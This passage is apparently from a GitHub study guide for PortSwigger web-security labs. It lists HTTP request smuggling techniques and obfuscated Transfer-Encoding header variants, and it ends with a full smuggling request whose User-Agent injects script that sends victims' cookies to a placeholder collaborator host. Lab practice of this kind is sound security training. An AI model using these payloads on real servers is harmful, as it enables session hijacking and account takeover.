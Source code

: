 ![single connection](images/single-connection.png)  

[PortSwigger Lab: Host validation bypass via connection state attack](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-host-validation-bypass-via-connection-state-attack)  
  
-----

## HTTP Request Smuggling  

>Architecture with front-end and back-end server, and front-end or back-end does not support chunked encoding **(HEX)** or content-length **(Decimal)**. Bypass security controls to retrieve the victim's request and use the victim user's cookies to access their account.  

[TE.CL dualchunk - Transfer-encoding obfuscated](#tecl-dualchunk---transfer-encoding-obfuscated)    
[TE.CL multiCase - Admin blocked](#tecl-multiCase---admin-blocked)  
[CL.TE multiCase - Admin blocked](#clte-multicase---admin-blocked)  
[CL.TE multiCase - Content-Length Cookie Stealer](#clte-multicase---content-length)  
[CL.TE multiCase - User-Agent Cookie Stealer](#clte-multicase---user-agent-cookie-stealer)  
[HTTP/2 smuggling - CRLF injection Cookie Stealer](#http2-smuggling-via-crlf-injection)  
[HTTP/2 TE - Admin Cookie Stealer](#http2-te-desync-v10a-h2path)  

### TE.CL dualchunk - Transfer-encoding obfuscated  

>If Duplicate header names are allowed, and the vulnerability is detected as **dualchunk**, then add an additional header with name and value = **Transfer-encoding: cow**.  Use **obfuscation** techniques with second TE.  

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```  

>Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is **obfuscation** in some way.  

>On Repeater menu ensure that the **"Update Content-Length"** option is unchecked.  

```html
POST / HTTP/1.1
Host: TARGET.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: identity

e6
GET /post?postId=4 HTTP/1.1
User-Agent: a"/><script>document.location='http://COLLABORATOR.com/?c='+document.cookie;</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
```